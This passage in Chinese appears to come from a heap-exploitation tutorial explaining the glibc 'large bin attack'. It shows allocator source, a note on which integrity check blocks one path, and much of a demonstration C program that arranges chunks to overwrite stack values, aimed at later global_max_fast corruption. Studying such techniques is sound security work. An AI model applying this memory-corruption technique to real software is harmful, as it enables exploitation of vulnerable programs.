    ```c
   
   	  mark_bin (av, victim_index);
   	  victim->bk = bck; // 正常的插入流程
   	  victim->fd = fwd;
   	  fwd->bk = victim;
   	  bck->fd = victim;
   ```
   
2. 先看victim的size大于large bin中最小chunk时，有检查的情况，这里直接快进到检查位置：

   fwd->bk_nextsize被我们覆盖成了addr，所以检查必然不能通过，会在这里报错退出：

   ![image-20240826164539527](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261645942.png)

3. 下面看一下另外一条路径，调试源码如下：

   ```c
   #include<stdio.h>
   #include<stdlib.h>
   #include<assert.h>
   
   int main()
   {
       setbuf(stdout, NULL);
   
       printf("本文件演示了通过将一个大的无符号长值写入栈上的large bin攻击\n");
       printf("实际上，large bin攻击通常为进一步的攻击做准备，例如重写libc中的全局变量global_max_fast以进行进一步的fastbin攻击\n\n");
   
       unsigned long stack_var1 = 0;
       unsigned long stack_var2 = 0;
   
       printf("首先，我们看看要在栈上重写的目标：\n");
       printf("stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
       printf("stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);
   
       unsigned long *p1 = malloc(0x420);
       printf("现在，我们在堆上分配第一个大块：%p\n", p1 - 2);
   
       printf("再分配另一个fastbin块，以避免在free()期间将下一个大块与第一个大块合并\n\n");
       malloc(0x20);
   
       unsigned long *p2 = malloc(0x500);
       printf("然后，我们在堆上分配第二个大块：%p\n", p2 - 2);
   
       printf("再分配另一个fastbin块，以避免在free()期间将下一个大块与第二个大块合并\n\n");
       malloc(0x20);
   
       unsigned long *p3 = malloc(0x500-8);
       printf("最后，我们在堆上分配第三个大块：%p\n", p3 - 2);
   
       printf("再分配另一个fastbin块，以避免在free()期间将第三个大块与top块合并\n\n");
       malloc(0x20);
   
       free(p1);
       free(p2);
       printf("现在我们释放第一个和第二个大块，它们将被插入到unsorted bin中："
              " [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));
   
       malloc(0x90);
       printf("现在，我们分配一个比已释放的第一个大块小的块。这将把已释放的第二个大块移到large bin空闲列表中，"
              "使用已释放的第一个大块的一部分进行分配，并将剩余的第一个大块重新插入到unsorted bin中："
              " [ %p ]\n\n", (void *)((char *)p1 + 0x90));
   
       free(p3);
       printf("现在，我们释放第三个大块，它将被插入到unsorted bin中："
   ```